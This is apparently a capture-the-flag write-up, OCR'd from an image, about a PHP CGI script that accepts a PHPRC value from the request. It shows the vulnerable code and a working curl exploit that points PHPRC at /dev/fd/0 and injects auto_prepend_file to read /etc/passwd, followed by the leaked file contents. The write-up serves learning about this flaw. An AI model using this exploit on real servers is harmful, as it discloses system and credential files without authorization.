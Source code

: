 ```php
<?php
$input = file_get_contents("php://stdin");
$input = trim($input);

$name = ($input !== "") ? $input : "Stranger";

$response = [
    "name" => $name,
    "year" => date("Y")
];

echo json_encode($response);
?>
```
As the file reads in data from standard input, we can only assume it runs through a shell command. Tracing the code leads us here in the `app.cgi` script:
```php
$phprc   = isset($_REQUEST['PHPRC']) ? $_REQUEST['PHPRC'] : null;
$data = isset($_REQUEST['data']) ? $_REQUEST['data'] : null;

if (!is_null($phprc) && !is_null($data)) {
[SNIPPED]
    putenv("PHPRC=" . $phprc);
    try{
        $cmd = "printf \"%b\" " . escapeshellarg($data);
        $cmd = $cmd . " | php /www/application/config.php";
        $output = shell_exec($cmd);
[SNIPED]
}}
```
- The above CGI script allows us to specify a custom PHP configuration file and pass the data through it. Originally the data is supposed to be passed to the file `config.php` and if none is specified then it simply gives us a `Stranger` output. This is where the logic of the vulnerability lies.


So let us look at the vulnerabilities:

### Arbitrary File Read
The vulnerability laid within the `cgi` file is one that allows you to specify the `PHPRC` variable. A custom `PHPRC` file is never a bad idea because there are cases when you need to run custom scripts exclusive from the server because they invoke dangerous functions that should not be available on the server. Notice that the check is limited to **existing files** and hence we need to specify an existing file. 

We do not have the ability to upload files, but that does not mean that we can not use existing file that is found on the `/dev/` directory. The input file descriptor: `/dev/fd/0` which makes us hijack the input data feeding it proper configuration.

When exploited this behaves like this:
```bash
╰─[:)] % curl 'localhost/cgi-bin/app.cgi?PHPRC=/dev/fd/0' --data "data=auto_prepend_file=/etc/passwd"                                                                                       

<pre>root:x:0:0:root:/root:/bin/bash
[SNIPPED]
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
[SNIPPED]
{&quot;name&quot;:&quot;Stranger&quot;,&quot;year&quot;:&quot;2025&quot;}</pre>
```
